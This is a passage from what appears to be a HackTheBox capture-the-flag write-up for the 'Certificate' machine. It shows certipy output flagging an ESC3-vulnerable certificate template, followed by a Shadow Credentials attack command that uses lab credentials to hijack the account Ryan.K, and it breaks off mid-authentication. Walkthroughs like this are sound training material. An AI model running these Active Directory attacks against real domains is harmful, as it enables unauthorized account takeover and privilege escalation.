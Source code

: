 ```shell
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-05T19:52:09+00:00
    Template Last Modified              : 2024-11-05T19:52:10+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFICATE.HTB\Domain CRA Managers
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFICATE.HTB\Administrator
        Full Control Principals         : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFICATE.HTB\Domain CRA Managers
    [!] Vulnerabilities
      ESC3                              : Template has Certificate Request Agent EKU set.
```

However, we were not able to abuse this to elevate our privileges even further.

### Access Control List (ACL) GenericAll Abuse Part 2

#### Shadow Credentials Attack Part 2

Due to the fact that we could basically impersonate every user on the whole domain we moved on to `Ryan.K`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ certipy-ad shadow auto -username 'sara.b@Certificate.htb' -password 'Blink182' -account 'ryan.k'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: CERTIFICATE.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'Ryan.K'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '34332401-52d3-1208-f927-5d583af1fe1b'
[*] Adding Key Credential with device ID '34332401-52d3-1208-f927-5d583af1fe1b' to the Key Credentials for 'Ryan.K'
[*] Successfully added Key Credential with device ID '34332401-52d3-1208-f927-5d583af1fe1b' to the Key Credentials for 'Ryan.K'
[*] Authenticating as 'Ryan.K' with the certificate
[*] Certificate identities:
```